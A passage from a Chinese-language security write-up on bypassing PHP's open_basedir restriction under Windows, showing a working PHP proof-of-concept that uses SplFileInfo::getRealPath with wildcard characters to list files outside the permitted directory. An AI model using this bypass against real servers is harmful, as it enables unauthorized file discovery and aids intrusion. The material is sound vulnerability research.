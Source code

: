 执行可以看到：

![enter image description here](http://drops.javaweb.org/uploads/images/e67112518979b4d50fffadceee2ef4fad0f0fa04.jpg)

Open_basedir为c:\wamp\www，但我们列举出了d:/test/目录下的文件：

![enter image description here](http://drops.javaweb.org/uploads/images/4bf22cfab098de3e26e4860a406409294774384d.jpg)

当然，这是个很粗糙的POC，因为我并没有考虑到首字母相同的文件，所以这个POC只能列举首字母不同的文件。

如果首字母相同，我们只需要再枚举第二个字符、第三个字符依次类推，即可列举出目录中所有文件。

这个方法好处是windows下php所有版本通用，当然坏处就是只有windows下才能使用通配符，如果是linux下就只能暴力猜解了。

0x04 SplFileInfo::getRealPath列举目录
=====

受到上一个方法的启发，我开始在php中寻找类似的方法。一旦realpath不能使用的情况下，也能找到替代方式。

我找到了新方法：[WooYun: php设计缺陷导致绕过open_basedir列举目录#1](http://www.wooyun.org/bugs/wooyun-2014-083453)，使用的方式是SplFileInfo::getRealPath。

SplFileInfo类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。其中有一个和realpath名字很像的方法叫getRealPath。

这个方法功能和realpath类似，都是获取绝对路径用的。我们在SplFileInfo的构造函数中传入文件相对路径，并且调用getRealPath即可获取文件的绝对路径。

这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。

我们的realpath函数还是考虑了open_basedir，只是在报错上没有考虑周全导致我们能够判断某个文件是否存在。但我们可爱的SplFileInfo::getRealPath方法是直接没有考虑open_basedir，就能够判断一个文件是否存在。

那么，我给出一个POC：

```
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>

```

只是把之前的POC稍作修改，同样列出了D:/test下的文件：
